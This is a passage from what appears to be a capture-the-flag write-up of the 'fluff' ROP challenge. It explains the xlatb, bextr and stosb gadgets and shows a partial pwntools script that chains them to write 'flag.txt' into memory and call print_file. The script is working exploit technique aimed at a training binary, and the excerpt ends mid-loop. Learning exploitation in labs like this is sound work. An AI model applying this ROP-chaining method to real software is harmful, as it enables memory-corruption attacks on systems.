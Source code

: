 Success! The first byte in the data segment was set to `0x66`!
One important detail to notice is that the `stosb` instruction increments `RDI`. This is convenient since we don't need to use another gadget to update `RDI` as it already points to the location in memory we want to write to.


## Crafting the Exploit - Putting it all Together

At this point, we just need to automate the steps from earlier to write whatever we want to the writable `.data` segment.
Let's update the code:

```python
import ctypes
from pwn import *

def prepare_rbx(target, rop):
    # Constants
    pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget = p64(0x0040062a)      # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
    magic_const = 0x3ef2

    # ROP Chaining
    rop.raw(pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget)
    rop.raw(p64(0x4000)) # Extract 64 bits from offset 0 in RCX. Results will be written to RBX.
    rop.raw(p64(ctypes.c_ulong(target - magic_const).value))

def prepare_al(target, current_al, rop, elf):
    '''
    return: The current value in the AL register
    '''
    xlat_ret_gadget = p64(0x00400628)                               # xlatb; ret;
    target_byte_addr = next(elf.search(target))
    rbx = ctypes.c_ulong(target_byte_addr - current_al).value
    prepare_rbx(rbx, rop)
    rop.raw(xlat_ret_gadget)
    return target

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './fluff'
io = process(PROCESS)

# Gadgets
rop = ROP(io.elf)
writable_data_segment = p64(0x00601028)
stosb_gadget = p64(0x00400639)                                  # stosb byte [rdi], al; ret;
pop_rdi_ret = p64(0x004006a3)                                   # pop rdi; ret;
print_file = p64(io.elf.plt['print_file'])

# Build the ROP chain

# Point RDI to the writeable data segment
rop.raw(pop_rdi_ret)
rop.raw(writable_data_segment)

# Write the target to the writable data segment
target = b"flag.txt" # The target we want to write to memory
previous_al = 0x0b   # The initial value in the AL register before exploitation
for b in target:
    # Prepare the AL register
```